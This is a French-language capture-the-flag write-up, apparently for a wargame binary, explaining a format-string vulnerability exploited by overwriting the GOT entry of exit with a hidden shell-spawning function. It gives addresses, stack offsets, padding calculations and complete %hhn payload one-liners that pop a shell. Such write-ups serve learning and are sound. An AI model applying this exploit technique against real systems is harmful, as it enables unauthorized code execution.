


# Level 5 - Format String + GOT overwrite

## Le bug en une phrase
La fonction `n()` fait `printf(input)` sans format → faille format string.
Mais contrairement à level4, il n'y a **pas de condition à satisfaire** : le programme
fait `exit(1)` juste après. Le but est de **détourner cet `exit`** pour qu'il saute
dans la fonction cachée `o()` qui lance `system("/bin/sh")`.

## Le nouveau concept : GOT overwrite (réécriture du carnet d'adresses)

### C'est quoi la GOT ?

Quand le programme appelle `exit`, il ne saute pas directement dans la libc. Il passe
par un **carnet d'adresses** (la GOT = Global Offset Table) qui contient la vraie
adresse de chaque fonction externe :

```
GOT (carnet)
┌──────────┬──────────────────────────────────┐
│ printf   │ 0xb7... (adresse réelle en libc)  │
│ exit     │ 0xb7... (adresse réelle en libc)  │  <-- on va falsifier cette ligne
│ fgets    │ 0xb7... (adresse réelle en libc)  │
└──────────┴──────────────────────────────────┘
```

Si on **remplace** la ligne `exit` par l'adresse de `o()`, alors quand le programme
fait `exit(1)`, il saute en fait dans `o()` → `system("/bin/sh")` → shell !

### Pourquoi l'ASLR ne gêne pas

```
adresse de exit (dans libc)       -> CHANGE à chaque exec (ASLR)   -> on s'en fiche
adresse de la LIGNE exit dans GOT -> FIXE dans le binaire           -> notre cible
adresse de o()                    -> FIXE dans le binaire           -> ce qu'on écrit
```

On n'a besoin que des deux adresses fixes. L'ASLR ne touche que la libc.

### Timing (pourquoi exit ne réécrit pas par-dessus)

```
1. lancement : la GOT est préparée (exit → vraie adresse libc)
2. printf(input) : notre format string s'exécute -> on réécrit la ligne exit → o()
3. exit(1) : lit la ligne exit dans GOT -> trouve o() -> saute dans o() -> shell 
```

Notre écriture (étape 2) arrive APRÈS la préparation (1) et AVANT l'appel (3). Rien
ne vient écraser notre valeur entre 2 et 3.

## Étape 1 : récupérer les adresses

### Adresse de `o` (dans Ghidra)

La première instruction de `o` donne son adresse :
```
080484a4  PUSH EBP    <- adresse de o = 0x080484a4
```

### Adresse de la ligne `exit` dans la GOT

```bash
objdump -R ./level5 | grep exit
```

Résultat :
```
08049838 R_386_JUMP_SLOT   exit    <- adresse de la CASE (pas de la fonction !)
08049828 R_386_JUMP_SLOT   _exit   <- attention : _exit ≠ exit (ce n'est pas la même)
```

On cible `exit` (sans underscore) → **0x08049838**.

```
case exit occupe 4 octets :
0x08049838 (exit+0)
0x08049839 (exit+1)
0x0804983a (exit+2)
0x0804983b (exit+3)
```

## Étape 2 : trouver la position du buffer sur la pile

```bash
python -c 'print "AAAA" + " %x"*10' | ./level5
```

On cherche `41414141` → trouvé en **position 4**.

## Étape 3 : découper l'adresse de `o` en 4 octets

```
0x080484a4 → octets : 08 04 84 a4 → little-endian en mémoire : a4 84 04 08

exit+0 = 0x08049838  <-  0xa4 = 164
exit+1 = 0x08049839  <-  0x84 = 132
exit+2 = 0x0804983a  <-  0x04 = 4
exit+3 = 0x0804983b  <-  0x08 = 8
```

## Étape 4 : ordonner les écritures (valeurs croissantes)

Même règle que level4 : compteur ne descend jamais → on trie par valeur croissante :

```
4  <  8  <  132  <  164
```

Compteur de départ : 4 adresses × 4 octets = **16 caractères**.
Toutes les valeurs (4, 8, 132, 164) sont ≤ 16 au premier write ou inférieures au
compteur courant → on ajoute 256 à chaque cible.

### Pourquoi %hhn et pas %hn ici ?

Avec `%hn` (2 octets), les paddings atteignaient ~34 000 caractères. Mais `fgets`
limite le buffer à **512 octets** → payload trop grand, format specifiers jamais lus.
Avec `%hhn` (1 octet), les paddings totalisent ~444 octets → rentre dans 512. 

```
ordre   valeur   case       adresse          position   compteur cible
 1er      4      exit+2    \x3a\x98\x04\x08    pos 4       256+4  = 260
 2e       8      exit+3    \x3b\x98\x04\x08    pos 5       256+8  = 264
 3e       132    exit+1    \x39\x98\x04\x08    pos 6       256+132 = 388
 4e       164    exit+0    \x38\x98\x04\x08    pos 7       256+164 = 420
```

## Étape 5 : calculer les paddings

```
avant %4$hhn :  260 - 16  = 244   ->  "a"*244
avant %5$hhn :  264 - 260 =   4   ->  "a"*4
avant %6$hhn :  388 - 264 = 124   ->  "a"*124
avant %7$hhn :  420 - 388 =  32   ->  "a"*32
```

## Étape 6 : construire et envoyer le payload

### Méthode : fichier payload (plus lisible)

```bash
python -c 'print "\x3a\x98\x04\x08\x3b\x98\x04\x08\x39\x98\x04\x08\x38\x98\x04\x08" + "a"*244 + "%4$hhn" + "a"*4 + "%5$hhn" + "a"*124 + "%6$hhn" + "a"*32 + "%7$hhn"' > /tmp/payload5

(cat /tmp/payload5; cat) | ./level5
```

### Méthode : tout en une ligne

```bash
(python -c 'print "\x3a\x98\x04\x08\x3b\x98\x04\x08\x39\x98\x04\x08\x38\x98\x04\x08" + "a"*244 + "%4$hhn" + "a"*4 + "%5$hhn" + "a"*124 + "%6$hhn" + "a"*32 + "%7$hhn"'; cat) | ./level5
```


## Décomposition du payload

```
"\x3a\x98\x04\x08"   adresse exit+2 → position 4
"\x3b\x98\x04\x08"   adresse exit+3 → position 5
"\x39\x98\x04\x08"   adresse exit+1 → position 6
"\x38\x98\x04\x08"   adresse exit+0 → position 7
(16 octets, compteur = 16)

"a"*244  + "%4$hhn"   compteur 260  -> 260 % 256 = 4   -> exit+2 = 0x04  
"a"*4    + "%5$hhn"   compteur 264  -> 264 % 256 = 8   -> exit+3 = 0x08  
"a"*124  + "%6$hhn"   compteur 388  -> 388 % 256 = 132 -> exit+1 = 0x84  
"a"*32   + "%7$hhn"   compteur 420  -> 420 % 256 = 164 -> exit+0 = 0xa4  

résultat : GOT[exit] = 0xa4 0x84 0x04 0x08 = 0x080484a4 = adresse de o()
exit(1) → o() → system("/bin/sh") → shell level6 
```

### 1. Flow global de l'exploit



### 2. Écriture de 0x080484a4 dans la GOT, octet par octet

